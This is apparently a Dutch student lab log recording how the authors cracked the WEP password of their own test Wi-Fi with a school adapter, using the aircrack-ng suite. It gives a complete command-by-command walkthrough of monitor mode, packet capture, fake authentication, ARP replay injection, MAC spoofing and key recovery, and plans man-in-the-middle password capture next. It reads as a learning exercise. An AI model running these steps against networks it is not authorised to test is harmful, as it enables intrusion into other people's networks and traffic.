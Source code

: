 ##27/11/2015

We hebben wifi voor de eerste keer gehacked!

![FOTO](http://i.imgur.com/PP0AThP.png)

We hebben ons WEP wachtwoord succesvol kunnen kraken. 
Hiervoor hebben we ee tutorial op Pluralsight gevolgd. 

We hebben gebruik gemaakt van een Alfa die beschikbaar is op school.

#Stappen/Commando's

###Wireless Reconnaissance:

Dit wordt gebruikt om op 'verkenning' te gaan.(reconnaissance). Deze stap geeft het doel acces point weer en laat alle andere draadloze netwerken zien die impact kunnen hebben op je acties. 

**Window 1**
Om te beginnen gaan we de draadloze interfaces vaststellen. deze draadloze interfaces gaan we dan in moniroting mode instellen en daarna lijsten we de draadloze netwerken op die binnen onze range zitten.

> iwconfig </br>
> airmon-ng start wlan0</br>
> airodump-ng "INTERFACE"</br>
> Find information in table</br>
>   ESSID</br>
>   BSSID</br>
>   Channel>> Client's  MAC

###Wireless Equivalent Privacy(WEP):
WEP werd later later vervangen door het wifi protected acces wpa protocol. 1 van de voornaamste tekortkomingen van WEP werd als eerste erkend bij het hergebruiken van de initialisatie vector(IV). IV WEP berust op het RC4 coderingsalgoritme, dat gekend is als streal cipher. In dit cijfer kan dezelfde encryptie sleutel niet worden herhaald. IV's werden ingevoerd om de wacht te houden tegen het hergebruiken van sleutels, door een element van willekeur in de versleutelde gegevens in te voeren. Helaas is een 24bit IV te kort om herhaling volledig te voorkomen. 

De meeste WEP sleutels kunnen hersteld of gekraakt worden binnen de 3 minuten. 

**Window 1**
Om de hack te laten werken hebben we bepaalde informatie nodig over het doelwit. Eerste en vooral hebben we de BSSID nodig. DIt wil zeggen dat we de naam van het draadloos netwerk gaan identificeren. Daarna gaan we kijken naar het mac adres van het access punt. We moeten ook nagaan welk draadloos kanaal er gebruikt wordt (bv:eth0). Als laatste hebben we het mac adres nodig van de draaloze client.
> airmon-ng</br>
>   Find "INTERFACE"</br>
> airodump-ng "INTERFACE"</br>
> Find information in table
	
**New window 2**
Het commando *airodump-ng* wordt gebruikt om draadloos verkeer te sniffen en IV's te verzamelen. De *--bssid* en *-c* delen van dit commando geven aan waar je de informatie moet plaatsen die we daarnet opgezocht hebben(BSSID en channel). De *-w* is voorzien om de naam van de output file neer te schrijven. Nu moeten we het aantal overgedragen IV' packetjes laten toenemen. Na het uitvoeren van dit commando mag het venster niet gesloten worden. 
> airodump-ng --bssid "BSSID" -c "Channel" -w wep_log "INTERFACE"

**New window 3** 
Deze commando's zijn om het mac adres van eigen computer(attacker) te vinden 
> ifconfig </br>
> Find own MAC

**New window 4**
De *-1* die we ingeven signaleert een nep-authenticatie. De *0* die daarop volgt geeft de reassociation timing weer. De **--ignore-negative-one* die we aan het einde van ons commando schrijven negeert de negatieve -1 channel van monitor 0. Met de vals gezette authenticatie zullen we verkeer genereren dat van een vertrouwd mac adres komt en doorgestuurd wordt naar het target wireless access punt. We maken opneiw gebruik van het *aireplay-ng* commando om de klus te klaren. Deze aanval is gekent als een arp injectie of arp replay attack. Het voormalige target acces point zal de arp packetten heruitzenden(broadcast).
> aireplay-ng -1 0 -a "BSSID" -h "client MAC" -e "name connection" "INTERFACE" --ignore-negative-one</br>
> aireplay-ng -3 -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one

**New window 5**
In dit scherm gaan we aanpasbare pakketten genereren. De *-2* duid erop dat we de interactieve packet replay gebruiken. De *-p* die daarop volgt zet het frame cotrole veld van het packet zo dat het lijkt alsof het van ee draadloze client komt. Om de bestemming zo in te stellen dat de packetten verzonden worden naar alle hosts van het netwerk word het *-c FF:FF:FF:FF:FF:FF* deel in het commando gebruikt. Achter *-b* zetten we het mac adres van de bssid en achter *-h* zetten we het mac adres van de machine van de aanvaller. 
> aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one</br>
> Use this packet? ENTER

**Window 2** 
Na al deze acties gaan we terug naar het 2de scherm dat we opgedaan hebben. Het scherm waarbij vermeld werd dat het niet gesloten mocht worden. Op dit scherm gaan we nu kijken naar de hoeveelheid data. Als dit veld een waarde geeft van boven 5000 mag alle schermen die nog open staan sluiten. 
> Everything is fine if data is above 5000 </br>
> Close window 2, 3, 4, 5

**First window**
Nu komen we terug op het eerste scherm terecht. We gebruiken het commando clear om even heel snel ons scherm leeg te maken. Het volgende *aircrack-ng* commando kan gebruikt worden om de web key te kraken. In dit commando geven we *-a* in direct gevolgd door nummer *1*. Dit deel forceert de attack mode om 'static WEP' te zijn. *wep_log-01.cap* wjst op het bestand waar de gevangen id in zit. Het eerste deel hiervan voor -O1 hebben we zelf in het begin ingesteld. 
> clear</br>
> aircrack-ng -a 1 -b "BSSID" -n 64 wep_log-01.cap
	
**_PASSWOORD GEVONDEN!!!!_**

</br>
</br>

**Problemen**
De eerste keer werkt het niet. Dit kwam doordat er niemand verbonden was met onze Wifi (TinneBrecht). Om ervoor te zorgen dat de hack lukt, moet er minstens één host geconnecteerd zijn, om de reden dat we verkeer nodig hebben binnen ons netwerk. Hoe meer verkeer, hoe makkelijker we de IV's kunnen kraken. Wanneer er iemand op het netwerk is zullen wij (attacker) zijn MAX address spoofen om ervoor te zorgen dat het acces punt denkt dat we de computer(host) zijn. nu kunnen we ook pakketten verzenden naar het acces punt om de hack te versnellen.

Bronnen:

- Pluralsight video
- [LINK](http://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wep-passwords-with-aircrack-ng-0147340/)


Next time: Script schrijven!

TODO: 
- Bash scripting...
- Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack

